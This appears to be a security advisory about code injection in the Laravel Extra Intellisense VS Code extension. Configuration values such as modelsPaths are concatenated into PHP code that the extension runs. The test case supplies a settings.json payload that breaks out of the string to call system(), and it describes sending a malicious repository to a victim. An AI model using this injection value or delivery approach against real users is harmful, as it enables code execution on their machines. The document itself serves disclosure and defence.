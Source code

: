 ### Preconditions
- The victim must have the Laravel Extra Intellisense extension installed
- The victim must open a repository with a customized configuration

### Source Code Analysis
Multiple provider files construct PHP code by string concatenation. For example, in `EloquentProvider.ts`:

```typescript
Helpers.runLaravel(
    "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
    // More PHP code construction...
);
```

The `modelsPaths` configuration value is directly concatenated into the PHP code. If an attacker can control this value, they could potentially break out of the string context and inject their own PHP code.

In `MiddlewareProvider.ts`, `loadMiddlewares()` concatenates PHP code without proper escaping:

```typescript
Helpers.runLaravel(
    "$middlewares = array_merge(app('Illuminate\\Contracts\\Http\\Kernel')->getMiddlewareGroups(), app('Illuminate\\Contracts\\Http\\Kernel')->getRouteMiddleware());" +
    // More PHP code...
);
```

### Security Test Case
1. Create a malicious Laravel project with a `.vscode/settings.json` file containing:
```json
{
  "LaravelExtraIntellisense.modelsPaths": ["app/Models', ']; system('touch /tmp/code_injection_success'); $x = '"]
}
```
2. The code above breaks out of the string context in the PHP code constructed in `EloquentProvider.ts`
3. Commit the project to a repository
4. Send the repository URL to the victim
5. When the victim opens the project in VSCode and the extension activates, it will construct and execute PHP code with the injected malicious command
6. Verify that the file `/tmp/code_injection_success` was created, proving successful code injection
